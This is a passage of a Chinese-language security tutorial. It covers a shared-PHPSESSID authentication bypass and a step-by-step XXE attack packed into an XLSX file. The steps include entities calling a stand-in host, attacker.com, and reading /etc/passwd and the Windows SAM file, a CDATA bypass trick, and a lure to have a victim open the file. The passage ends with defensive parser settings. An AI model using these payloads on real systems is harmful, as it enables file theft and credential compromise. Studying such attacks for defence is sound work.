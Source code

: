 1. 使用相同PHPSESSID访问应用B后台  
  
1. 绕过身份验证  
  
**技术原理**  
：默认配置下PHP使用相同SESSION存储目录，导致会话数据共享。  
### 3.2 XXE在EXCEL中的应用场景  
  
###   
#### 3.2.1 漏洞利用全流程  
  
**步骤1：解压XLSX文件**  
```
unzip document.xlsx -d exploit_dir

```  
  
**步骤2：注入XXE实体**  
```
<!-- exploit_dir/xl/workbook.xml -->
<!DOCTYPE root [  <!ENTITY % remote SYSTEM "http://attacker.com/xxe">  <!ENTITY % file SYSTEM "file:///etc/passwd">]>

```  
  
**步骤3：重打包文件**  
```
cd exploit_dir
zip -r ../malicious.xlsx *

```  
  
**步骤4：诱导目标打开文件**  
#### 3.2.2 高级利用技巧  
  
**绕过字符限制**  
：  
```
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "%start;%file;%end;">

```  
  
**敏感文件读取**  
：  
```
<!ENTITY % file SYSTEM "file:///C:/Windows/system32/config/SAM">

```  
#### 3.2.3 漏洞防御方案  
  
**安全解析代码示例**  
：  
```
// 使用SAX解析器禁用外部实体
SAXParserFactory factory = SAXParserFactory.newInstance();
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);

// 使用DocumentBuilderFactory
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);

```  
## 结语：攻防对抗的未来趋势  
### 技术演进方向  